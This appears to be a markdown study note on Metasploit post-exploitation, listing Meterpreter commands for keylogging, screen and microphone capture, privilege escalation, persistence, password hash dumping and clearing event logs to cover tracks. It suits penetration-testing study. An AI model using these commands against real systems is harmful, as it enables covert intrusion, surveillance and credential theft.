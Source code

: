 # Post Exploitation

We want to elevate our privileges, maintain persistence, and look for useful information on the target machine. This is information gathering on the target machine

* Look at files for sensitive data
* Upload additional files
* Steal passwords
* Control network
* Run a keylogger

## Meterpreter Basic Commands

`help` - list all commands

`background` or `bg` - puts current session in background, allowing you to navigate between multiple sessions

`sessions` - switch between sessions

`download` - download a specific file from target

`upload` - upload a specific file to target

`shell` - open up target shell

Linux commands also work to navigate file system

`execute` - execute a command

`kill` - terminate a process (need process id)

`ps` - lists all processes currently running on a system

`reboot` - reboots target computer

`shutdown`

`sysinfo` - additional info on target computer

`mouse` - you can send specific mouse commands to the target mouse

`keyscan-start` - start a keylogger

`keyscan-dump` - display all captured keystrokes

`keyscan-stop` - stop keylogger

`screenshot` - saves a screenshot of target desktop

`screenshare` - starts streaming target's screen

`record_mic` - records microphone for a specified period of time

`getsystem` - attempts to elevate privilege on the target

## Elevating Privileges

Many of the scripts have patches, but they're worth testing on a target

in msfconsole - 

`search 2020` - search for current exploits. Look for exploit/windows/local

`search bypassuac` - read the info about the exploit before running it

## Creating Persistence on Target

Allows us to stay on the target machine even after the target gets rebooted. This is one of the first things we want to do on a target machine.

`search persistence`

`use exploit/windows/local/persistence_service`

## Additional Helpful Modules

`search` - search for file types on target
`search -f *.jpg`

`clearev` - clears the event log. Useful for covering tracks

msfconsole - 

`search post/windows` - lists wireless interfaces and possible passwords from target wireless access points. Can target Chrome, VMs, etc.

`search passwords`

`search hashdump`

You can also run msf commands from meterpreter shell

`run post/windows/gather/enum_applications` - lists all installed applications on a target